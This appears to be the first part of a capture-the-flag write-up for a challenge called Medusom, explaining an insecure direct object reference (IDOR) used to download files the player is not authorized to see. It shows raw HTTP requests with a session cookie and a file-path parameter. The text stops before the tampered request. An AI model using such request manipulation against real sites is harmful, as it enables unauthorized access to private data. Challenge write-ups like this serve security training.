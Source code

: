 # Medusom [part 1] - Write up

> I don't have screenshots for this challenge, I'm sorry 😥 I will try my best to explain the challenge !

For this challenge, we need to attack a website to download some data that we are not authorized to see. <br>
To do that, we will exploit an IDOR (Insecure Direct Object Reference).

To download one authorized file via the API, we need to make a POST request containing

```
POST /ajax/listing-post HTTP/1.1
Host: 141.94.222.142:57411
Content-Length: 95
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://141.94.222.142:57411
Referer: http://141.94.222.142:57411/post/mWeqC0lstvYVFQ5Xuy8igsxa
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: SESSID=a784e25bbdb1b4c8c680adfe5b374c761ab54bfe4b933512745d00dc3263a7c0
Connection: close

explorer=true&file-download=true&folder-id=1&data-dir=airbus%2FAIRBUS_INTELLIGENCE%2Fdetails.md

GET /ajax/listing-post?file-download=true&folder-id=1&data-dir=airbus%2FAIRBUS_INTELLIGENCE%2Fdetails.md HTTP/1.1
Host: 141.94.222.142:57411
Referer: http://141.94.222.142:57411/post/mWeqC0lstvYVFQ5Xuy8igsxa
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: SESSID=a784e25bbdb1b4c8c680adfe5b374c761ab54bfe4b933512745d00dc3263a7c0
Connection: close
```
